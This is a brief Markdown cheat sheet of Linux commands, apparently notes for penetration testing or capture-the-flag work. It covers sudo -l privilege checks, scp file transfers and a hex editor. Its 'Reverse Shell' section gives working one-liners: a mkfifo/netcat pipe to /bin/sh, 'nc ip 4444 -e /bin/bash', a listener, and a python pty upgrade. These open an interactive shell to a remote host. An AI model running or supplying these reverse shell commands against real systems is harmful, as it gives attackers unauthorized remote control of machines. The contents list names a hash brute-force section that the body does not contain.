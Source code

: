 # Linux

- [Sudo](#sudo)
- [Reverse Shell](#reverse-shell)
- [Hash Bruteforce](#hash-bruteforce)
- [SCP](#scp)
- [Editor](#editor)


## Sudo
```
sudo -l
```

## Reverse Shell

### mkfifo

```
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Client
```
nc ip 4444 -e /bin/bash
```
### Server
```
nc -lp 4444
```
### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

## Editor
### Hexa
```
hexedit
```
